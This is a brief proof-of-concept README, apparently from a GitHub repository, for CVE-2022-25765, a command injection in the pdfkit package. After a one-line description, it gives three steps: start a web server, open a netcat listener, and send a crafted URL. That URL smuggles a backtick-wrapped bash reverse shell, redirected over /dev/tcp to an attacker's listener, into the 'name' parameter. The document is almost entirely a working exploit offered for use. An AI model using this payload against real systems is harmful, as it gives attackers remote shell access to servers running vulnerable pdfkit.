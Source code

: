 # PDFkit-CMD-Injection 

CVE-2022-25765 Detail

Description
The package pdfkit from 0.0.0 are vulnerable to Command Injection where the URL is not properly sanitized.



# PoC

1- python3 -m http.server 80

2- nc -lnvp 'Target Port'

3- http://"TARGET_ADDRESS:Target PORT"//?name=#{'%20`bash -c 'exec bash -i &>/dev/tcp/"Target IP/LISTEN PORT"<&1'`'}
